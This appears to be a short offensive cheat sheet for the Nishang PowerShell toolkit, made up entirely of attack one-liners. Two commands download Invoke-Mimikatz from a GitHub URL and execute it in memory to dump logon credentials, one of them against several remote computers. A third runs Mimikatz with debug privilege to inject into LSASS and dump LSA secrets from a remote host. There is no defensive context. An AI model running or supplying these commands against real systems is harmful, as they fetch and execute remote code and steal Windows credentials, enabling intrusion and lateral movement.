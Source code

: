 # Nishang

## 01 - Invoke-Mimikatz

### 1.1 - LogonPasswords

```
C:\> powershell.exe -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -DumpCreds -Computername <IP_1>,<IP_2>,<IP_n>
```

### 1.2 - LSASS Injection

`PS C:\> Invoke-Mimikatz -Command '"privilege::debug" "lsadump::lsa /inject"' -Computer <IP>`